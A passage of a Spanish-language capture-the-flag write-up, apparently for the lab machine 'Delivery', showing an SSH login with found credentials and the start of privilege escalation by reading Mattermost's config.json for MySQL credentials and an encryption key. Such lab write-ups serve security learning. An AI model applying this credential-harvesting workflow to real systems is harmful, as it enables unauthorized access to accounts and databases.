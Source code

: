 Encontramos tooooooooooooooooodos los tickets creados y su histórico, entre muchas cosas más, como el **Admin Panel** en la parte superior (:

**Probándolas contra el servicio** SSH **obtenemos una sesión**:

```bash
ゝ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
...
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
maildeliverer@Delivery:~$ 
```

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Despues de enumerar algunos archivos, encontramos los objetos fuente del servicio **Mattermost** y una carpeta de configuración:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ ls -la
total 36
drwxrwxr-x  2 mattermost mattermost  4096 Dec 26 09:23 .
drwxrwxr-x 12 mattermost mattermost  4096 Dec 26 09:24 ..
-rw-rw-r--  1 mattermost mattermost   922 Dec 18 08:52 cloud_defaults.json
-rw-rw-r--  1 mattermost mattermost 18774 May 15 19:24 config.json
-rw-rw-r--  1 mattermost mattermost   243 Dec 18 08:52 README.md
```

Echando un ojito al archivo [config.json](https://docs.mattermost.com/administration/config-settings.html), vemos algo interesante:

```json
{
...
    ...
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
    ...
...
```
